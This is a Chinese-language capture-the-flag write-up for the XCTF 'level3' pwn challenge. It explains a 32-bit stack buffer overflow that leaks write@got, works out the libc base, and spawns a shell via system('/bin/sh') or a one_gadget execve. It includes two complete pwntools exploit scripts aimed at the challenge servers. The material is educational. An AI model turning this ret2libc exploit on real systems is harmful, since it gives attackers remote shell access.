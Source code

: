 # wp

转载自 XCTF攻防世界 level3 https://www.52pojie.cn/thread-1032651-1-1.html

首先，检查一下程序基本信息：

![Alt text](pwn_70_xman_level3.md1.png)

程序很简单，保护开的也差不多。但是需要注意，这道题单独给出了libc，而且根据题目提示，程序中没有现成的system函数。这就需要我们从libc中动态加载system函数。

初步思路：PIE没有开启，那么在libc中函数的offset就是固定的，只要确认了libc的base address，然后计算出system函数的offset，就可以定位到system函数的真实地址，实现调用。

IDA查看源码：
* strings查看一下是否有明显的字符串信息：

![Alt text](pwn_70_xman_level3.md2.png)


从字符串信息来看，没有明显的可以利用的字符串，函数也只有write和read，在某些情况下这两个函数可以构造溢出，先留心一下。

- main函数：


![pwn_70_xman_level3.md3](pwn_70_xman_level3.md3.png)

没有明显的问题，直接进入vulnerable_function()

- vulnerable_function函数：


![pwn_70_xman_level3.md4](pwn_70_xman_level3.md4.png)

有一个缓冲区buf，在read函数中进行了调用。可以进行溢出。

**攻击思路：**
libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。

1. 首先利用write()函数计算出write()函数的真实地址；
2. 利用相对offset计算出system和"/bin/sh"的真实地址。

在vulnerable_function()中，先调用了write()函数，然后调用read()函数。write()函数返回到vulnerable_function()后，再进行read()函数调用，这样我们就可以进行二次攻击。

* 第一次攻击我们利用栈溢出将write()函数在got表中的真实地址leak出来，然后减去libc中的offset，就可以得到libc的base address。

* 第二次攻击重新进入main函数，再次通过栈溢出，利用system函数进行getshell。

两次攻击stack中的情况：

| First stack | Second stack |
| ----------- | ------------ |
| 'A'*0x88    | 'A'*0x88     |
| EBP         | EBP          |
| write@plt   | sys_addr     |
| main_addr   | 0xdeadbeef   |
| 1           | bin_sh_addr  |
| write@got   | XXXX         |
| 0xdeadbeef  | XXXX         |

这样的话，第一次使用的payload构成如下：

**payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)**


利用第一次攻击，就可以获取到libc的基地址。然后进行第二次攻击，使用的payload构成为：


**payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)**


中间涉及到几个地址的计算，各地址的计算方式如下：

| Address     | Calculate                              |
| ----------- | -------------------------------------- |
| libc_addr   | write_got_addr - libc.symbols['write'] |
| sys_addr    | libc_addr + libc.symbols['system']     |
| bin_sh_addr | libc_addr + 0x15902b                   |

```
备注：0x15902b是"/bin/sh"在libc中的地址，可以使用libcsearch进行获取，也可以使用 strings -a -t x libc_32.so.6 | grep "/bin/sh" 进行获取。此外，还有一个libcSearcher可以使用，有兴趣的可以研究一下。
```

这样的两次攻击下来，就可以使用libc中的system函数进行"/bin/sh"的调用，从而getshell。

## EXP:

```python
from pwn import *
 
sh = remote('124.126.19.106',35860)
#sh=process('./level3')
 
#context.log_level = 'debug'
elf=ELF('./level3')
libc=ELF('./libc_32.so.6')

#get func address
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# 0xdeadbeef 可随意如 p32(4)，填充4字节, 上面就是把write_got输出, 然后返回main头部
 
sh.sendlineafter("Input:\n",payload)
 
#leak write's addr in got
write_got_addr = u32(sh.recv()[:4])
print( 'write_got address is',hex(write_got_addr))
 
#leak libc's addr 计算lib库加载基址
libc_base = write_got_addr - libc.symbols['write']
print( 'libc address is',hex(libc_base))
 
#get system's addr
sys_addr = libc_base + libc.symbols['system']
print( 'system address is',hex(sys_addr))
 
#get bin/sh 's addr    strings -a -t x libc_32.so.6 | grep "/bin/sh"
#libc.search("/bin/sh").next()
bin_sh_addr = libc_base + 0x15902b
print( '/bin/sh address is',hex(bin_sh_addr))
 
#get second payload
##char[88] ebp system system函数的返回地址 system函数的参数(bin_sh_addr)
payload0 = flat('A'*0x88, p32(0xdeadbeef), p32(sys_addr), p32(0xdeadbeef), p32(bin_sh_addr))
 
sh.sendline(payload0)
sh.interactive()
```

执行完成后，可以成功拿到flag：

 ![pwn_70_xman_level3.md5](pwn_70_xman_level3.md5.png)

## 总结

这道题感觉才算真正开始入门pwn的栈溢出，遇到了没有system和"/bin/sh"的情况，思路也比较好玩，需要一定的技巧和脑洞才能完成这道题。可能在大师傅们的眼里很简单，但是对于刚入门pwn的小白来说，这道题很值得玩味，挺有价值的。 此外，需要花一定的时间学习一下pwntools，这玩意真的是pwn题的神器233333。





## 解法2
可以使用one_gadget工具，找到execve地址可以省略使用system和/bin/sh地址的步骤

```sh
kali@kali:/mnt/hgfs/vmware$ one_gadget  libc_32.so.6 
0x3a80c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
```

```python

from pwn import *
p = remote("111.198.29.45",37840)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")
context(log_level='debug',arch='i386',os='linux')
execve = 0x3a80c
junk = "A"*(0x88+4)
main_addr = elf.symbols['main']
write_got = elf.got['write']
write_plt = elf.plt['write']
payload1 = junk + p32(write_plt) + p32(main_addr)
payload1 += p32(1) + p32(write_got) + p32(4)
p.recv()
p.sendline(payload1)
data = p.recv()[:4]
write_addr = u32(data)
offset = write_addr - libc.symbols['write']
execve_addr = offset + execve
payload = junk + p32(execve_addr)
p.sendlineafter("Input:\n",payload)
p.interactive()
```